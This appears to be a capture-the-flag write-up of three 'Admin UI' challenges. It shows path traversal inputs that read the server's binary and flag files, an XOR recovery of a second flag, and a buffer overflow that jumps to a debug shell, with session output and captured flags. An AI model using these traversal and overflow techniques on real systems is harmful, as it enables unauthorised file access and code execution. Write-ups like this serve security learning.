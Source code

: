 # Admin UI

> https://ctftime.org/writeup/10289

When we examine patchnotes we can find out that although path traversal vulnerability was patched in v0.2 it was rolled back in v0.3.
Let's try it
```
=== Management Interface ===
 1) Service access
 2) Read EULA/patch notes
 3) Quit
2
The following patchnotes were found:
 - Version0.3
 - Version0.2
Which patchnotes should be shown?
../../../../../proc/self/cmdline
./main
```
So our binary is named `main`. Hopefully we can just print its contents the same way.
```
=== Management Interface ===
 1) Service access
 2) Read EULA/patch notes
 3) Quit
2
The following patchnotes were found:
 - Version0.3
 - Version0.2
Which patchnotes should be shown?
../main
```
We have to redirect output to file and then remove unnecessary lines added by this application (menu etc.)
This way we got the copy of the binary running on the server.
When we open it in IDA we can see that the application reads the password from file `flag`. Let's cat it.
```
=== Management Interface ===
 1) Service access
 2) Read EULA/patch notes
 3) Quit
2
The following patchnotes were found:
 - Version0.3
 - Version0.2
Which patchnotes should be shown?
../flag
CTF{I_luv_buggy_sOFtware}
```
Flag: `CTF{I_luv_buggy_sOFtware}`

# Admin UI 2

> https://ctftime.org/writeup/10288

When we enter the flag from previous level as the password we can see that it's not the end and we have to enter secondary password.
When we analyze it in IDA, we can notice that it only checks if the password has 35 characters (maybe it wasn't intended by creators of this challenge).
Anyway we can the second flag offline. There is `_ZL4FLAG` offset in IDA and it's `const unsigned __int8 FLAG[35]`.
We can also notice that before length check our password is xorred with 0xC7 byte. So maybe if we just xor the flag from memory with this byte we'd get the flag back?
This [script](2nd.py) does it for us.

Flag: `CTF{Two_PasSworDz_Better_th4n_1_k?}`

# Admin UI 3

> https://ctftime.org/writeup/10287

The last part of the series and the most interesting one. We finally get to command execution. Unfortunately there is variable `_ZL13shell_enabled` and it's set to false.
But we can execute some built-in commands. `debug` command prints us a lot of interesing informations about the memory. The most important is `_ZL13cmds_executed` variable and its address. `shell_enabled` is just after it in the memory!
Also there is `echo` command which calls printf with our input as first parameter. This would allow us to perform format string attack.
But there's an easier solution. ASLR is disabled for this binary, so addresses are constant and we don't need to print them at all (we can get it with IDA).
The second vulnerability is buffer overflow. If we send 0x38 times any letter and after that an address of the debug_shell() call (the if branch that would be executed if shell_enabled variable were set to true) the application will return to that address.
[exploit](exploit.py)
When you run the exploit you have to type `quit` twice. And then you have the shell.
```
$ ./exploit.py
[+] Opening connection to mngmnt-iface.ctfcompetition.com on port 1337: Done
=== Management Interface ===
 1) Service access
 2) Read EULA/patch notes
 3) Quit
1

Please enter the backdoo^Wservice password
CTF{I_luv_buggy_sOFtware}
:
! Two factor authentication required !
Please enter secret secondary password
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
:
Authenticated
[*] Switching to interactive mode

> Unknown command ''
> Unknown command 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAICAA'
> Bye!
$ ls -la
total 144
drwxr-xr-x 3 user   user      4096 Jun 18 08:25 .
drwxr-xr-x 3 nobody nogroup   4096 May 25 13:19 ..
-rw-r--r-- 1 user   user       220 Aug 31  2015 .bash_logout
-rw-r--r-- 1 user   user      3771 Aug 31  2015 .bashrc
-rw-r--r-- 1 user   user       655 May 16  2017 .profile
-rw-r--r-- 1 nobody nogroup     26 May 24 15:03 an0th3r_fl44444g_yo
-rw-r--r-- 1 nobody nogroup     25 Jun 18 08:25 flag
-rwxr-xr-x 1 nobody nogroup 111128 Jun 18 08:25 main
drwxr-xr-x 2 nobody nogroup   4096 Jun 18 08:25 patchnotes
$ cat an0th3r_fl44444g_yo
CTF{c0d3ExEc?W411_pL4y3d}
```

Flag: `CTF{c0d3ExEc?W411_pL4y3d}`